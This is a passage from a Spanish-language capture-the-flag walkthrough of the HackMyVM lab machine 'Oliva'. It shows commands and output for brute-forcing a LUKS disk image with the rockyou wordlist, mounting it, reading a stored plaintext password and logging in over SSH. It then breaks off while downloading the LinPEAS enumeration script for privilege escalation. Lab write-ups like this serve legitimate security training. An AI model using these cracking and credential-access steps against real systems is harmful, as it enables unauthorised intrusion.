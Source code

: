```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Oliva/content]
└─# bruteforce-luks -t 4 -f /usr/share/wordlists/rockyou.txt -v 10 oliva
Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Password found: bebita
Tried passwords: 971
Tried passwords per second: 1.471212
Last tried password: imissyou
```

¡Perfecto! Tras un rato de espera obtenemos la clave del fichero **`LUKS`**, vamos a montarlo:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Oliva/content]
└─# cryptsetup luksOpen oliva olive_img
Enter passphrase for oliva: 

┌──(root㉿kali)-[~/…/VMs/HMV/Oliva/content]
└─# mount /dev/mapper/olive_img /mnt
```

¡Estupendo! Ahora que ya tenemos montado el disco podemos ir a verlo al directorio **`/mnt`**{: .filepath } (en mi caso es **`/mnt`**{: .filepath }, vosotros podéis especificar cualquier otro directorio):

```sh
┌──(root㉿kali)-[/mnt]
└─# ls -la
total 18
drwxr-xr-x  3 root root  1024 Jul  6 18:11 .
drwxr-xr-x 18 root root  4096 Mar  6 08:56 ..
drwx------  2 root root 12288 Jul  4 04:35 lost+found
-rw-r--r--  1 root root    16 Jul  4 04:36 mypass.txt
```

¡Wow! Vemos un fichero llamado **`mypass.txt`**, vamos a ver su contenido:

```sh
┌──(root㉿kali)-[/mnt]
└─# cat mypass.txt
Yesthatsmypass!
```

¡Qué bien! Tenemos la contraseña de **`Oliva`**, vamos a iniciar sesión mediante **`SSH`**.

### Subida de privilegios
Una vez dentro de la máquina como **`Oliva`** comencé a enumerar el sistema con [**`LinPEAS`**](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).

Para poder traerla a la máquina víctima comencé por descargar la herramienta:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Oliva/exploits]
└─# curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
```
